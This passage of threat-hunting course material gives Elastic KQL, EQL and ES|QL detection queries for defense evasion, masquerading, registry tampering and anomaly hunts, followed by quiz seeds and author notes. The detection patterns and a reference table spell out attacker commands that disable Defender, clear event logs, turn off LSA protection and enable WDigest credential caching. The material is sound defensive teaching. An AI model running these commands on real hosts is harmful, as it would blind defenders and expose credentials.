  T1036 --> T1036_005[.005 Match Legit Name/Loc]
```



### T1027 — Obfuscated Files or Information

#### .010 Command Obfuscation — the special-character density signal

PowerShell, cmd, and batch all support obfuscation by inserting null syntactic characters: backtick (`` ` ``) in PowerShell, caret (`^`) in cmd, and bizarre `$ENV:`, `[Char]`, `${}` constructs. Visually obvious, statistically detectable.

The hunter's trick: count special-character density. Below is an ES|QL pattern using `LENGTH` minus `LENGTH(REPLACE(...))` to count the count of characters of interest.

```esql
FROM logs-endpoint.events.process-*
| WHERE event.action == "start"
    AND process.name IN ("powershell.exe", "pwsh.exe", "cmd.exe")
    AND process.command_line IS NOT NULL
| EVAL cmd_len = LENGTH(process.command_line),
       backticks = cmd_len - LENGTH(REPLACE(process.command_line, "`", "")),
       carets    = cmd_len - LENGTH(REPLACE(process.command_line, "^", "")),
       dollars   = cmd_len - LENGTH(REPLACE(process.command_line, "$", "")),
       braces    = cmd_len - LENGTH(REPLACE(process.command_line, "{", ""))
| EVAL evasion_score = backticks + carets + dollars + braces
| WHERE evasion_score >= 8 AND cmd_len >= 80
| KEEP @timestamp, host.name, user.name, process.name,
       process.parent.name, evasion_score, process.command_line
| SORT evasion_score DESC
| LIMIT 50
```

Tune the threshold (`evasion_score >= 8`) per environment — automation legitimately uses braces.

#### .002 Software Packing

The on-host signature is a *small import table* (UPX, Themida, VMProtect) and an *unsigned binary*. You see it indirectly via:

- `process.code_signature.trusted: false` AND `process.executable` written in the last 24h.
- `library-*` events showing few-or-no imports prior to first execution (only available on Endpoint integration).

```kusto
event.category : "process" and event.type : "start"
  and process.code_signature.trusted : false
  and process.executable : (*\\AppData\\* or *\\Temp\\* or *\\ProgramData\\* or *\\Public\\*)
```

### T1070 — Indicator Removal

The destructive subset of Defense Evasion. Almost always malicious.

#### .001 Clear Windows Event Logs — wevtutil + EID 1102

Two complementary signals:

1. **Process telemetry** — `wevtutil.exe cl` invocation. (`cl` = clear.)
2. **Security log** — Event ID 1102 (Security log was cleared) or 104 (System log was cleared). Note: 1102 is *self-emitting* — Windows always logs that the log was cleared, immediately before/after the clear.

```kusto
(event.category : "process" and event.type : "start"
   and process.name : "wevtutil.exe"
   and process.command_line : (*cl* or *clear-log*))
or
(data_stream.dataset : "windows.security" and event.code : ("1102" or "104"))
```

EQL — sequence "process clears + log records the clear", high confidence:

```eql
sequence by host.id with maxspan=10s
  [process where event.type == "start"
     and process.name : "wevtutil.exe"
     and process.command_line : ("*cl *", "*clear-log*")]
  [any where event.code : ("1102", "104")]
```

#### .003 Clear PowerShell History

The PSReadline history file at `%APPDATA%\\Microsoft\\Windows\\PowerShell\\PSReadline\\ConsoleHost_history.txt`. Look for **deletion** of that file via `file-*`:

```kusto
event.category : "file" and event.action : ("deletion" or "deleted")
  and file.path : *PSReadline\\ConsoleHost_history*
```

Or the in-shell sibling — `Clear-History` and `Remove-Item` against the same path:

```eql
process where event.type == "start"
  and process.name : ("powershell.exe", "pwsh.exe")
  and process.command_line : ("*Clear-History*", "*ConsoleHost_history*", "*Remove-Item*PSReadLine*")
```

#### .004 File Deletion

The signal of interest is bulk deletion or deletion of artefacts the attacker just created. The hunter's pattern: a process that *created* files in the last hour and is now deleting them, especially from `%TEMP%`, `%APPDATA%`, or `C:\\Users\\Public\\`.

```eql
sequence by host.id, process.entity_id with maxspan=1h
  [file where event.action : "creation" and file.path : "*\\Temp\\*"]
  [file where event.action : "deletion" and file.path : "*\\Temp\\*"]
```

Also watch for `cipher.exe /w:` (overwrite free space) and `sdelete.exe` invocations.

#### .006 Timestomp

Adversaries set a malicious file's timestamp to that of a system file (typically `kernel32.dll`'s timestamp from years ago) to evade timeline-based hunts. The Endpoint integration emits separate `creation` and `change` events with `file.created` and `file.mtime`. The signal:

```esql
FROM logs-endpoint.events.file-*
| WHERE event.action == "modification"
    AND file.path LIKE "*.exe"
    AND file.created > "2024-01-01"
    AND file.mtime < "2015-01-01"
| KEEP @timestamp, host.name, file.path, file.created, file.mtime, process.name
```

Sysmon Event ID 2 ("FileCreateTime changed") emits when a process modifies the on-disk creation time. That is the classic timestomp signal:

```kusto
data_stream.dataset : "windows.sysmon_operational" and event.code : "2"
```

### T1562 — Impair Defenses

#### .001 Disable or Modify Tools

The behavioural variants you must memorise:

| Vector | Command shape |
|---|---|
| Stop Defender service | `sc stop Sense` / `sc stop WinDefend` / `Stop-Service Sense` |
| Tamper with Defender prefs | `Set-MpPreference -DisableRealtimeMonitoring $true` / `-DisableScriptScanning $true` / `-DisableBehaviorMonitoring $true` |
| Add exclusion path | `Add-MpPreference -ExclusionPath` (strong signal) |
| Kill MsMpEng | `taskkill /IM MsMpEng.exe /F` (rarely succeeds, but the *attempt* is the signal) |
| Stop MDE Sense agent | `sc.exe stop Sense` |

```kusto
event.category : "process" and event.type : "start"
  and (
    process.command_line : (*Set-MpPreference* or *Add-MpPreference* or *MpPreference -Disable*)
    or (process.name : ("sc.exe" or "net.exe") and process.command_line : (*stop* and (*WinDefend* or *Sense* or *MsMpSvc* or *WdNisSvc* or *SecurityHealthService*)))
    or (process.name : "taskkill.exe" and process.command_line : (*MsMpEng* or *NisSrv* or *SenseIR* or *SenseCnCProxy*))
  )
```

EQL fingerprint:

```eql
process where event.type == "start"
  and (
    (process.name : ("powershell.exe", "pwsh.exe")
     and process.command_line : ("*Set-MpPreference*", "*Add-MpPreference*ExclusionPath*", "*-DisableRealtimeMonitoring*"))
    or
    (process.name : "sc.exe"
     and process.command_line : ("*stop*Sense*", "*stop*WinDefend*", "*config*Sense*start=*disabled*"))
  )
```

#### .002 Disable Windows Event Logging — auditpol

```eql
process where event.type == "start"
  and process.name : "auditpol.exe"
  and process.command_line : ("*/clear*", "*/set*disable*", "*/set*/success:disable*", "*/set*/failure:disable*")
```

#### .004 Disable / Modify System Firewall — netsh advfirewall

```eql
process where event.type == "start"
  and process.name : "netsh.exe"
  and process.command_line : ("*advfirewall*off*", "*advfirewall*disable*", "*firewall*set*opmode*disable*")
```

#### .009 Safe Mode Boot

```eql
process where event.type == "start"
  and process.name : "bcdedit.exe"
  and process.command_line : ("*safeboot*", "*minimal*", "*network*")
```

Pairs malign with ransomware that wants to disable the EDR by booting into Safe Mode (most EDRs do not load there).

### T1036 — Masquerading

#### .001 Invalid Code Signature

Trusted process names with broken or absent signatures:

```kusto
event.category : "process" and event.type : "start"
  and process.code_signature.trusted : false
  and process.name : ("svchost.exe" or "lsass.exe" or "csrss.exe" or "winlogon.exe"
                       or "services.exe" or "spoolsv.exe" or "explorer.exe" or "smss.exe")
```

#### .005 Match Legitimate Name or Location

The classic: an executable named `svchost.exe` running from somewhere other than `C:\\Windows\\System32\\` or `C:\\Windows\\SysWOW64\\`. ECS gives you both `process.name` and `process.executable`.

```kusto
event.category : "process" and event.type : "start"
  and process.name : ("svchost.exe" or "lsass.exe" or "csrss.exe" or "winlogon.exe"
                       or "services.exe" or "spoolsv.exe" or "smss.exe" or "wininit.exe")
  and not process.executable : ("C\\:\\\\Windows\\\\System32\\\\*" or "C\\:\\\\Windows\\\\SysWOW64\\\\*")
```

ES|QL — same idea, host-aware:

```esql
FROM logs-endpoint.events.process-*
| WHERE event.action == "start"
    AND process.name IN ("svchost.exe","lsass.exe","csrss.exe","winlogon.exe",
                         "services.exe","spoolsv.exe","smss.exe","wininit.exe")
    AND NOT (process.executable LIKE "C:\\\\Windows\\\\System32\\\\*"
          OR process.executable LIKE "C:\\\\Windows\\\\SysWOW64\\\\*")
| KEEP @timestamp, host.name, process.name, process.executable,
       process.parent.name, process.code_signature.trusted, user.name
| SORT @timestamp DESC
```

Also catch the parent-trust violation: `lsass.exe` or `services.exe` with a parent that is **not** `wininit.exe`. That is a very strong T1003.001 / T1055 signal.

```eql
process where event.type == "start"
  and process.name : "lsass.exe"
  and not process.parent.name : "wininit.exe"
```

### T1112 — Modify Registry

Three high-value registry hunts in `logs-endpoint.events.registry-*` (or Sysmon EID 13).

**LSA Protection toggle** (`RunAsPPL` set to 0):

```kusto
event.category : "registry" and event.action : ("modification" or "creation")
  and registry.path : *\\System\\CurrentControlSet\\Control\\Lsa\\RunAsPPL
  and registry.data.strings : "0"
```

**WDigest credential caching enabled** (`UseLogonCredential` set to 1):

```kusto
event.category : "registry"
  and registry.path : *\\SecurityProviders\\WDigest\\UseLogonCredential
  and registry.data.strings : "1"
```

**AMSI provider hijack** — new entry under `HKLM\\SOFTWARE\\Microsoft\\AMSI\\Providers\\`:

```kusto
event.category : "registry" and event.action : ("creation" or "modification")
  and registry.path : *\\SOFTWARE\\Microsoft\\AMSI\\Providers\\*
```

**IFEO Debugger** (Image File Execution Options abuse — sticky-keys, magnify):

```kusto
event.category : "registry"
  and registry.path : (*\\Image File Execution Options\\sethc.exe\\Debugger* or
                       *\\Image File Execution Options\\osk.exe\\Debugger* or
                       *\\Image File Execution Options\\magnify.exe\\Debugger*)
```

### T1140 — Deobfuscate / Decode

Mostly visible on the *Execution* side as `certutil.exe -decode`, `certutil.exe -urlcache -split -f`, or `powershell -enc` followed by `[Convert]::FromBase64String` chains. The dedicated hunt is `certutil`:

```eql
process where event.type == "start"
  and process.name : "certutil.exe"
  and process.command_line : ("*-decode*", "*-urlcache*", "*-split*-f*", "*-decodehex*", "*ping*")
```

`certutil` is signed and has no business decoding base64 in a phishing payload context. Almost always malicious from a non-System account.

### T1497 — Virtualization / Sandbox Evasion

On the endpoint side, T1497 manifests as queries against indicators that the host is virtualised: WMI queries for `Win32_BIOS`, `Win32_ComputerSystem`, registry reads under `HKLM\\HARDWARE\\DESCRIPTION\\System\\BIOS`, and `vmtoolsd.exe`/`VBoxService.exe` enumeration. Hunt the `wmic` and `Get-WmiObject` shape:

```eql
process where event.type == "start"
  and (
    (process.name : "wmic.exe" and process.command_line : ("*Win32_ComputerSystem*", "*Win32_BIOS*", "*csproduct*"))
    or
    (process.name : ("powershell.exe", "pwsh.exe") and process.command_line : ("*Get-WmiObject*Win32_ComputerSystem*", "*Win32_BIOS*", "*VBOX*", "*VMware*", "*QEMU*"))
  )
```

### Triage workflow for a TA0005 hit



### Worked example — chaining T1562.001 + T1070.001 in a single Timeline

In a real intrusion you rarely see one Defense Evasion technique in isolation; adversaries chain them. The sequence below catches the common ransomware pre-encryption pattern: stop Defender, then clear logs, within five minutes.

```eql
sequence by host.id with maxspan=5m
  [process where event.type == "start"
     and (
       (process.name : "sc.exe" and process.command_line : ("*stop*Sense*", "*stop*WinDefend*"))
       or (process.name : ("powershell.exe","pwsh.exe")
           and process.command_line : ("*Set-MpPreference*-Disable*", "*Stop-Service*Sense*"))
       or (process.name : "taskkill.exe" and process.command_line : "*MsMpEng*")
     )]
  [process where event.type == "start"
     and process.name : "wevtutil.exe"
     and process.command_line : ("*cl *", "*clear-log*")]
```

When this sequence fires on any host, treat it as a P1 — adversary preparing for the destructive stage. Pull `file-*` events on the host immediately for the next 30 minutes; ransomware mass-rename activity (extension churn) usually follows within minutes.

### Cross-checking signatures — `process.code_signature.status`

`process.code_signature.trusted` is a boolean — but for triage you often want the *reason* a signature is untrusted, not just the fact. ECS exposes this via `process.code_signature.status`:

| Status value | Meaning | Hunt use |
|---|---|---|
| `trusted` | Chains to a trusted root, valid | benign default |
| `errorCode_endpoint:0x800b0100` / `errorUntrusted` | Signature explicitly untrusted | very strong T1036.001 |
| `errorExpired` | Cert expired | weak signal — common in old vendor binaries |
| `errorChaining` | Cert chain incomplete | medium — could be air-gap or attacker |
| `errorRevoked` | Cert was revoked | strong — almost always malicious |
| `unsigned` | No signature | medium — context-dependent |

A useful triage filter: `process.code_signature.status: ("errorRevoked" or "errorUntrusted")` over the last 7 days. Should yield single-digit hits in a healthy fleet — every one deserves attention.

### What you should be able to do after R3

- Recall the four sub-techniques of T1562 most often abused.
- Spot timestomp by `file.mtime < file.created` on a recent executable.
- Write a wevtutil + EID 1102 sequence.
- Identify svchost-out-of-System32 and lsass-not-from-wininit anomalies.
- Author registry hunts for LSA Protection, WDigest, AMSI providers, IFEO.
- Chain T1562 + T1070 into a single multi-stage EQL `sequence`.
- Use `process.code_signature.status` for higher-fidelity Masquerading triage.

---

## R4 — Statistical / anomaly hunts in ES|QL + cross-source pivots + worked capstone

### Why ES|QL is the L2 hunter's secret weapon

KQL is a filter language. EQL is a sequence language. **ES|QL is an aggregation language** — and aggregation is what turns "I have 90 days of process events" into "the three hosts most likely to be compromised". Statistical hunts are the *stack-counting* / least-frequency-of-occurrence (LFO) tradition that PEAK calls *Model-Assisted Threat Hunting (M-ATH)*. The shape is always the same: pick a set of events, group them by an interesting key, and look at the tail.

```mermaid
flowchart TD
  Q[Hypothesis] --> Pick[Pick event set<br/>FROM index | WHERE filter]
  Pick --> Group[Group by interesting key<br/>STATS ... BY key]
  Group --> Tail{Look at the tail}
  Tail -->|Low count| Rare[Rare-by-host / rare-by-hash]
  Tail -->|Outlier metric| Score[Outlier score / entropy / ratio]
  Tail -->|Time anomaly| Bucket[BUCKET by hour/day]
  Rare --> Triage[Triage top 50]
  Score --> Triage
  Bucket --> Triage
  Triage --> Pivot[Pivot to raw events]
  Pivot --> Decision[Decision]
```

### Hunt 1 — Rare process by SHA-256

The single most useful M-ATH query in any SOC. Surfaces binaries that exist on a small number of hosts and are not signed.

```esql
FROM logs-endpoint.events.process-*
| WHERE event.action == "start"
    AND @timestamp > NOW() - 30 days
    AND process.hash.sha256 IS NOT NULL
| STATS hosts = COUNT_DISTINCT(host.name),
        executions = COUNT(*),
        signed_pct = AVG(CASE(process.code_signature.trusted == true, 1.0, 0.0)),
        sample_path = VALUES(process.executable),
        sample_parent = VALUES(process.parent.name)
  BY process.hash.sha256, process.name
| WHERE hosts <= 3 AND signed_pct < 0.5
| SORT hosts ASC, executions DESC
| LIMIT 100
```

Tune `hosts <= 3` to roughly 0.5%–1% of fleet size. The `signed_pct` metric uses the boolean → numeric trick: any document with `trusted: true` contributes 1.0, otherwise 0.0; the average is the fraction trusted.

### Hunt 2 — Rare parent-child pair

The most valuable single hunt for catching novel TTPs. Many techniques are hidden inside high-volume binaries (cmd, powershell, rundll32) but their **parent-child pair** is rare.

```esql
FROM logs-endpoint.events.process-*
| WHERE event.action == "start" AND @timestamp > NOW() - 14 days
| EVAL pair = CONCAT(process.parent.name, " -> ", process.name)
| STATS pair_count = COUNT(*),
        hosts = COUNT_DISTINCT(host.name),
        first_seen = MIN(@timestamp),
        last_seen  = MAX(@timestamp)
  BY pair
| WHERE pair_count <= 5
| SORT first_seen DESC
| LIMIT 100
```

Combine with a quick join back into the raw stream by re-issuing the filter `process.parent.name == X AND process.name == Y` once you spot a suspicious pair (e.g. `w3wp.exe -> cmd.exe`, `outlook.exe -> certutil.exe`, `services.exe -> rundll32.exe`).

### Hunt 3 — Command-line entropy proxy

Real Shannon entropy is not yet a built-in ES|QL function. Approximate it by counting "weird" characters per length, as we did in R3 for T1027.010. Generalise:

```esql
FROM logs-endpoint.events.process-*
| WHERE event.action == "start"
    AND process.command_line IS NOT NULL
    AND LENGTH(process.command_line) >= 200
| EVAL clen = LENGTH(process.command_line),
       n_special = clen - LENGTH(REPLACE(REPLACE(REPLACE(REPLACE(process.command_line,
                          "`", ""), "^", ""), "$", ""), "{", "")),
       n_alnum_ratio = TO_DOUBLE(LENGTH(REPLACE(process.command_line, " ", ""))) / clen
| EVAL evasion_score = (TO_DOUBLE(n_special) / clen) * 100
| WHERE evasion_score >= 5.0
| KEEP @timestamp, host.name, user.name, process.name,
       process.parent.name, evasion_score, process.command_line
| SORT evasion_score DESC
| LIMIT 50
```

### Hunt 4 — Signed-vs-unsigned ratio per host

A host that suddenly shifts toward executing a higher proportion of unsigned binaries is a candidate for "live attacker" review.

```esql
FROM logs-endpoint.events.process-*
| WHERE event.action == "start" AND @timestamp > NOW() - 7 days
| EVAL is_unsigned = CASE(process.code_signature.trusted == true, 0, 1)
| STATS total = COUNT(*),
        unsigned = SUM(is_unsigned),
        unsigned_pct = TO_DOUBLE(SUM(is_unsigned)) / COUNT(*)
  BY host.name
| WHERE total >= 200 AND unsigned_pct > 0.20
| SORT unsigned_pct DESC
| LIMIT 25
```

Compare the result against a 30-day baseline of the same metric per host — a *change* in unsigned-pct is more interesting than the absolute value.

### Hunt 5 — Time-of-day anomaly with `BUCKET()`

```esql
FROM logs-endpoint.events.process-*
| WHERE event.action == "start"
    AND process.name IN ("powershell.exe","pwsh.exe")
    AND TO_LOWER(process.command_line) LIKE "*-enc*"
    AND @timestamp > NOW() - 30 days
| EVAL hour = BUCKET(@timestamp, 1 hour)
| STATS firings = COUNT(*) BY hour, host.name
| SORT firings DESC
```

Plot the result — anomalous bursts at 02:00 local from a workstation that is otherwise idle stand out clearly.

### Hunt 6 — Cross-source pivot (Endpoint ↔ Sysmon ↔ Security)



A hunt that uses *both* sources to build a story:

1. Find suspicious PowerShell in `logs-endpoint.events.process-*`.
2. Pull `event.code: 4624` from `winlogbeat-*` for the same host within ±5 minutes — was there a fresh logon?
3. Pull `event.code: 4688` (if the Endpoint integration is missing) as a sanity check that the kernel-audit feed agrees.
4. Pull `event.code: 7045` (service install) within the next 30 minutes — did the attacker pivot to lateral movement?
5. Pull `kibana.alert.*` for the same host during the window — did anything else fire?

ES|QL cannot yet `JOIN` across indices in a single statement (as of 8.x), so this is executed as four discrete queries chained in a Timeline or notebook. Use `host.id` (machine-stable) rather than `host.name` (renameable).

### Decision tree for choosing your statistical hunt

```mermaid
flowchart TD
  Start[I want to hunt] --> Have{Do I have a TTP hypothesis?}
  Have -->|Yes| TTP[Behavioural — KQL/EQL filter]
  Have -->|No| Stat[Statistical — ES|QL aggregate]
  Stat --> Domain{What domain?}
  Domain -->|Binaries| Hash[Rare-by-SHA256]
  Domain -->|Tradecraft| Pair[Rare parent-child pair]
  Domain -->|Obfuscation| Ent[Special-char density]
  Domain -->|Drift| Ratio[Signed-vs-unsigned ratio]
  Domain -->|Schedule| Time[Time-of-day BUCKET]
  Hash --> Triage[Triage top-N tail]
  Pair --> Triage
  Ent --> Triage
  Ratio --> Triage
  Time --> Triage
```

### Worked capstone — full PEAK hunt: encoded PowerShell from an Office parent

This is the end-to-end exercise an L2 hunter should be able to deliver as a single artefact in 30–60 minutes.

#### Hypothesis

> Within the last 7 days, an Office application has spawned PowerShell with an encoded or obfuscated command line on at least one workstation in the fleet, indicating likely T1204.002 user-execution leading to T1059.001 PowerShell execution.

#### Data sources

- `logs-endpoint.events.process-*` (primary)
- `logs-endpoint.events.file-*` (corroboration — Office writing the dropper)
- `winlogbeat-*` (secondary — for hosts without the Endpoint integration)
- `.alerts-security.alerts-default` (final cross-check)

#### Q1 — Broad KQL trawl

```kusto
event.category : "process" and event.type : "start"
  and process.name : ("powershell.exe" or "pwsh.exe")
  and process.command_line : (*-enc* or *frombase64string* or *iex* or *downloadstring*)
```

Result count: expected to be hundreds across a normal fleet over 7 days. Most are scheduled tasks, MDM agents, configuration management. We narrow next.

#### Q2 — Narrow KQL with parent filter

```kusto
event.category : "process" and event.type : "start"
  and process.name : ("powershell.exe" or "pwsh.exe")
  and process.parent.name : ("winword.exe" or "excel.exe" or "powerpnt.exe"
                              or "outlook.exe" or "msaccess.exe" or "visio.exe")
  and process.command_line : (*-enc* or *frombase64string* or *iex* or *downloadstring*
                               or *amsiutils* or *amsiinitfailed* or *-nop* or *-w hidden*)
```

Expected count: zero or single digits. Anything that hits this is a candidate.

#### Q3 — EQL sequence for the click context

```eql
sequence by host.id with maxspan=5m
  [process where event.type == "start"
     and process.name : ("outlook.exe", "iexplore.exe", "msedge.exe", "chrome.exe", "firefox.exe")] by process.entity_id
  [process where event.type == "start"
     and process.name : ("winword.exe", "excel.exe", "powerpnt.exe", "msaccess.exe", "visio.exe")] by process.parent.entity_id
  [process where event.type == "start"
     and process.name : ("powershell.exe", "pwsh.exe", "wscript.exe", "cscript.exe",
                          "mshta.exe", "regsvr32.exe", "rundll32.exe", "cmd.exe",
                          "certutil.exe", "bitsadmin.exe", "msiexec.exe")
     and process.command_line : ("*-enc*", "*-encodedcommand*", "*frombase64string*",
                                  "*iex*", "*downloadstring*", "*-nop*", "*-w hidden*")] by process.parent.entity_id
```

Three-step sequence: the user opens a mail client / browser, that spawns Office, Office spawns a script host with a suspicious command line. This is your full T1204 → T1059 / T1218 pipeline.

#### Q4 — ES|QL aggregation for triage

```esql
FROM logs-endpoint.events.process-*
| WHERE event.action == "start"
    AND @timestamp > NOW() - 7 days
    AND process.parent.name IN ("winword.exe","excel.exe","powerpnt.exe",
                                 "outlook.exe","msaccess.exe","visio.exe")
    AND process.name IN ("powershell.exe","pwsh.exe","wscript.exe",
                          "cscript.exe","mshta.exe","cmd.exe","rundll32.exe","regsvr32.exe")
    AND TO_LOWER(process.command_line) RLIKE ".*(\\-enc|frombase64string|iex|downloadstring|amsi|\\-nop|\\-w hidden).*"
| STATS firings = COUNT(*),
        hosts = COUNT_DISTINCT(host.name),
        users = VALUES(user.name),
        sample_cmd = VALUES(process.command_line),
        first = MIN(@timestamp),
        last  = MAX(@timestamp)
  BY process.parent.name, process.name, host.name
| SORT last DESC
| LIMIT 50
```

This gives you the host-by-host triage list. Open the top entry in Timeline; pivot to file events on the same host within ±10 minutes to find the dropper; pivot to network events to find C2.

#### EQL detection-rule body (for Kibana Security)

The single rule body to ship for production detection (set rule type *EQL*, language *eql*, index pattern `logs-endpoint.events.process-*`):

```eql
sequence by host.id with maxspan=5m
  [process where event.type == "start"
     and process.name : ("winword.exe","excel.exe","powerpnt.exe",
                          "outlook.exe","msaccess.exe","visio.exe")] by process.entity_id
  [process where event.type == "start"
     and process.name : ("powershell.exe","pwsh.exe","wscript.exe",
                          "cscript.exe","mshta.exe","regsvr32.exe","rundll32.exe","cmd.exe")
     and process.command_line : ("*-enc*","*-encodedcommand*","*frombase64string*",
                                  "*iex*","*downloadstring*","*amsiutils*",
                                  "*-nop*","*-w hidden*","*amsiinitfailed*")] by process.parent.entity_id
```

Tag the rule with `T1204.002` and `T1059.001`. Set severity high. Set `risk_score: 73`. Add MITRE attack threat metadata.

#### Triage checklist (deliverable handed to IR)

1. Affected hosts and users (top of Q4 output).
2. The decoded command line where applicable (decode the `-EncodedCommand` base64).
3. The suspected parent document — Office tree, including the original dropper file path from `file-*`.
4. The network events — DNS resolution and HTTP egress around the same window.
5. The EQL rule body and rule ID, ready for Kibana Security submission.
6. The hypothesis statement, refined to a finding statement (PEAK closure).

### Hunt 7 — Library-load anomalies (Endpoint integration only)

The `logs-endpoint.events.library-*` stream is the most underused source on the Elastic stack. It surfaces every DLL that maps into a process. Two high-value statistical hunts:

```esql
FROM logs-endpoint.events.library-*
| WHERE @timestamp > NOW() - 7 days
    AND dll.code_signature.trusted == false
| STATS hosts = COUNT_DISTINCT(host.name),
        proc_names = VALUES(process.name),
        sample = VALUES(dll.path)
  BY dll.hash.sha256, dll.name
| WHERE hosts <= 3
| SORT hosts ASC
| LIMIT 50
```

Surfaces unsigned DLLs that load on a small number of hosts — DLL search-order hijacks (T1574.001), planted helpers (T1574.002), and reflective load residue (when the DLL touches disk first).

### Hunt 8 — File-create anomaly under user-writable locations

```esql
FROM logs-endpoint.events.file-*
| WHERE event.action == "creation"
    AND @timestamp > NOW() - 24 hours
    AND (file.path LIKE "*\\AppData\\Local\\Temp\\*"
      OR file.path LIKE "*\\Public\\*"
      OR file.path LIKE "*\\ProgramData\\*")
    AND (file.extension IN ("exe","dll","ps1","vbs","js","hta","bat","cmd","scr"))
| STATS hosts = COUNT_DISTINCT(host.name),
        creators = VALUES(process.name),
        sample = VALUES(file.path)
  BY file.hash.sha256, file.name
| WHERE hosts <= 5
| SORT hosts ASC
| LIMIT 100
```

Pairs powerfully with Hunt 1 — once you have a suspicious SHA-256 from rare-by-hash, ask "where on disk did this file come from?" via Hunt 8 with the SHA-256 plugged into the filter.

### A note on baselining

All eight statistical hunts described above are *sensitive to fleet shape*. A small fleet (~500 endpoints) can use `hosts <= 1` for the rare tail; a very large fleet (50,000+) may need to bump the threshold to 50 or even 100 because of long-tail noise. Establish baseline windows before going to production:

1. Run the hunt with no tail filter for 30 days, store the histogram of `hosts` values.
2. Pick the threshold where the cumulative count reaches roughly 0.5%–1% of unique values.
3. Document the threshold + date + fleet size in a tuning ledger.
4. Re-baseline quarterly or after major fleet changes (M&A, OS upgrades).

### What you should be able to do after R4

- Author eight different ES|QL statistical hunts from memory (rare-by-hash, rare-pair, entropy proxy, signed-ratio, time-of-day, top-LOLBAS, library anomaly, file-create anomaly).
- Pivot a single host across the three pipelines (Endpoint, Sysmon, Security) using `host.id` and time windows.
- Deliver a full PEAK capstone in four queries plus a deployable EQL rule.
- Establish a defensible threshold for any new statistical hunt by baselining the fleet's tail distribution.

---

## Quiz seeds (Q1–Q4) — 8 sample stems

These are author-side seeds the curriculum builder should expand into the full 8-question quizzes per lesson. Mix kinds: single-choice, multi-select, true-false, short-answer.

### Q1 — Quiz for R1 (Data plane and ECS)

**1.1 (single-choice).** You are looking at a Discover hit with `data_stream.dataset: "endpoint.events.process"` and `event.action: "start"`. Which pipeline produced it?
- A. Native Windows Security log via Winlogbeat
- B. Sysmon via Winlogbeat
- C. Elastic Agent endpoint integration ✔
- D. Auditd

**1.2 (short-answer).** Why is `process.entity_id` preferred over `process.pid` when joining process events to file or registry events for the same process? *(Expected: PIDs are recyclable by Windows after a process exits; `process.entity_id` is unique per process lifetime — Endpoint UUID or Sysmon ProcessGuid — and stable across all sibling event streams.)*

### Q2 — Quiz for R2 (Execution)

**2.1 (multi-select).** Which of the following are reliable suspicious-PowerShell vocabulary tokens? (select all that apply)
- A. `-EncodedCommand` ✔
- B. `Get-Service`
- C. `FromBase64String` ✔
- D. `IEX` ✔
- E. `Get-ChildItem`
- F. `AmsiUtils` ✔

**2.2 (true-false).** A `regsvr32.exe` invocation with `/i:` pointing to an `http://` URL and loading `scrobj.dll` is a strong T1218.010 (Squiblydoo) signal. *(True.)*

### Q3 — Quiz for R3 (Defense Evasion)

**3.1 (single-choice).** A process named `lsass.exe` runs from `C:\Windows\System32\lsass.exe` and is signed and trusted, but its parent is `cmd.exe`. Which technique should you suspect first?
- A. T1027.002 Software Packing
- B. T1036.005 Match Legitimate Name or Location with parent-trust violation ✔
- C. T1562.001 Disable AV/EDR
- D. T1112 Modify Registry

**3.2 (short-answer).** Name two registry hunts under T1112 that are high-fidelity indicators of credential-access prep. *(Expected: `RunAsPPL` set to 0 — disabling LSA Protection; `WDigest\UseLogonCredential` set to 1 — enabling cleartext credential caching. AMSI provider COM hijack is also acceptable.)*

### Q4 — Quiz for R4 (Statistical hunts and capstone)

**4.1 (single-choice).** Which ES|QL aggregation surfaces "binaries running on a small number of hosts that are mostly unsigned"?
- A. `STATS COUNT(*) BY host.name`
- B. `STATS COUNT_DISTINCT(host.name), AVG(CASE(process.code_signature.trusted == true, 1.0, 0.0)) BY process.hash.sha256` ✔
- C. `STATS COUNT(*) BY @timestamp`
- D. `STATS VALUES(process.name) BY user.name`

**4.2 (multi-select).** In the encoded-PowerShell-from-Office capstone, which of the following are correct components of the final EQL detection-rule body? (select all)
- A. `sequence by host.id with maxspan=5m` ✔
- B. Office parent process names in the first stage ✔
- C. `STATS COUNT(*) BY process.name`
- D. Suspicious script-host children with encoded/IEX/AMSI command-line tokens ✔
- E. Joining the two stages on `process.entity_id` → `process.parent.entity_id` ✔

---

## Author hand-off notes — gaps to verify

The course author should validate the following before publishing this module to L2 students.

1. **Sysmon version drift.** Sysmon 13+ added `OriginalFileName` and clipboard events; Sysmon 14+ added `FileBlockExecutable`; Sysmon 15+ added `FileExecutableDetected`. Some queries here assume EID 1, 2, 5, 7, 11, 13 only — verify the deployed Sysmon config (the SwiftOnSecurity / Olaf Hartong configs are the common references) actually emits the events the queries depend on. The `process.code_signature.*` ECS mapping in `winlogbeat-sysmon` was strengthened in Winlogbeat 8.7+ — older fleets may have null `process.code_signature.trusted`.

2. **ECS field-path drift in 8.x.** A handful of fields shifted minor namespaces between 8.0 and 8.13: `process.code_signature.subject_name` was occasionally seen as `process.code_signature.subject` in early Endpoint integration builds; `registry.data.strings` was `registry.data.string` in some 7.x betas. If queries return zero hits unexpectedly, run `GET logs-endpoint.events.process-*/_field_caps?fields=*signature*` to confirm.

3. **LOLBAS quarterly refresh.** The lolbas-project.github.io list grows. Re-verify the T1218 sub-technique list quarterly. Notable additions to watch: `pcwrun.exe` (UAC bypass), `xwizard.exe` (DLL hijack), `wt.exe` (Windows Terminal proxy), `forfiles.exe` (cmd proxy), `wsl.exe` (Linux subprocess pivot).

4. **Audit Process Creation policy.** Several R3 queries relying on `event.code: 4688` plus `process.command_line` will silently miss data on hosts where the *Include command line in process creation events* GPO is disabled. Recommend the author add a sidebar warning and a fleet-readiness check query.

5. **EQL `process.command_line` case sensitivity.** EQL keyword wildcard matches with `:` are case-insensitive in Elastic 8.x by default, but ES|QL `LIKE` is case-sensitive — that is why ES|QL queries in this module use `TO_LOWER(...)` first. Re-verify behaviour on the target stack version before publishing; behaviour was tightened in 8.13.

6. **`.alerts-security.alerts-<space_id>` index pattern.** This module uses `default` as the space ID throughout. Multi-space tenants must substitute the active space's ID. The `kibana.alert.original_event.*` mirror is reliable from 8.4+; older clusters may need `signal.original_event.*`.

7. **Statistical-hunt thresholds.** All thresholds (`hosts <= 3`, `pair_count <= 5`, `evasion_score >= 8`) are starting points sized for a fleet of ~5,000 endpoints. Author should document a tuning paragraph asking learners to size thresholds at roughly 0.5%–1% of the fleet for rare-by-host and 30-day low-frequency for rare-pair.

